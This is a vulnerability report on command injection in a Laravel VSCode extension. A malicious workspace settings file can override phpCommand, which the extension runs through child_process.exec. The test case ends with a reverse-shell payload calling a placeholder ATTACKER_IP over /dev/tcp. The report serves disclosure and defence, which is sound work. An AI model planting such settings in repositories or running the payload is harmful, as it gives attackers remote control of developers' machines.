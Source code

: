 ## Vulnerability List

### 1. Command Injection in `phpCommand` Configuration

- **Description:**
    1. The extension allows users to configure the `LaravelExtraIntellisense.phpCommand` setting, which specifies the command used to execute PHP code.
    2. The extension uses `child_process.exec` to execute this command with PHP code generated by the extension.
    3. A malicious repository can provide a `.vscode/settings.json` file that modifies the `LaravelExtraIntellisense.phpCommand` to inject arbitrary shell commands.
    4. When the extension is activated in a workspace containing this malicious configuration, it will execute the injected shell commands alongside the intended PHP code.
    5. An attacker can achieve Remote Code Execution (RCE) by crafting a malicious `phpCommand` that executes arbitrary commands on the victim's machine when the extension attempts to gather Laravel project information.

- **Impact:**
    - Remote Code Execution (RCE). An attacker can execute arbitrary commands on the machine where the VSCode extension is running, potentially leading to full system compromise, data theft, or malware installation.

- **Vulnerability Rank:** critical

- **Currently Implemented Mitigations:**
    - None. The extension uses the configured `phpCommand` directly without any sanitization or validation. While the default `phpCommand` wraps `{code}` in double quotes, this is insufficient to prevent command injection when the entire command string is user-controlled via workspace settings.

- **Missing Mitigations:**
    - Input sanitization and validation for the `phpCommand` configuration setting.
    - Restricting the characters allowed in `phpCommand` to a safe subset.
    - Avoiding the use of `child_process.exec` for executing user-configured commands. Consider using safer alternatives like `child_process.spawn` with carefully constructed arguments, or disallowing user configuration of the entire command string and only allowing customization of specific parameters.
    - Display a warning message to the user when the extension detects a custom `phpCommand` configuration in the workspace, highlighting the security risks.

- **Preconditions:**
    - The victim must open a workspace in VSCode that contains a malicious `.vscode/settings.json` file.
    - The malicious `.vscode/settings.json` file must configure `LaravelExtraIntellisense.phpCommand` to inject shell commands.
    - The extension must be activated and attempt to execute a Laravel command (which happens automatically and periodically).

- **Source Code Analysis:**
    1. **File:** `src/helpers.ts`
    2. **Function:** `runPhp(code: string, description: string|null = null)`
    3. **Line:** `let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";` - Retrieves the `phpCommand` from user configuration.
    4. **Line:** `let command = commandTemplate.replace("{code}", code);` - Constructs the final command by replacing `{code}` placeholder.
    5. **Line:** `cp.exec(command, ...)` - Executes the command using `child_process.exec`.

    ```
    // Visualization of vulnerable code path in src/helpers.ts

    runPhp(code, description) {
      commandTemplate = getConfig('phpCommand') ?? "php -r \"{code}\"";  // Get phpCommand from config (user-controlled)
      command = commandTemplate.replace("{code}", code);               // Construct command string
      cp.exec(command, ...)                                          // Execute command string using shell (vulnerable)
    }
    ```

- **Security Test Case:**
    1. Create a new Laravel project or use an existing one.
    2. Create a `.vscode` directory at the root of the project.
    3. Inside `.vscode`, create a `settings.json` file with the following content:
    ```json
    {
        "LaravelExtraIntellisense.phpCommand": "php -r \"{code}; touch /tmp/vscode-laravel-extra-intellisense-pwned\""
    }
    ```
    4. Open the Laravel project in VSCode with the Laravel Extra Intellisense extension activated.
    5. Wait for a short period (or trigger any extension feature that executes a Laravel command, e.g., opening a blade file to trigger view autocompletion).
    6. Check if the file `/tmp/vscode-laravel-extra-intellisense-pwned` exists. If it exists, the command injection is successful.
    7. To further verify, modify the `settings.json` to execute a more impactful command, like reverse shell or data exfiltration, and observe the results. For example:
    ```json
    {
        "LaravelExtraIntellisense.phpCommand": "php -r \"{code}; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/9001 0>&1'\""
    }
    ```
    (Replace `ATTACKER_IP` with your attacker machine's IP and set up a netcat listener on port 9001).
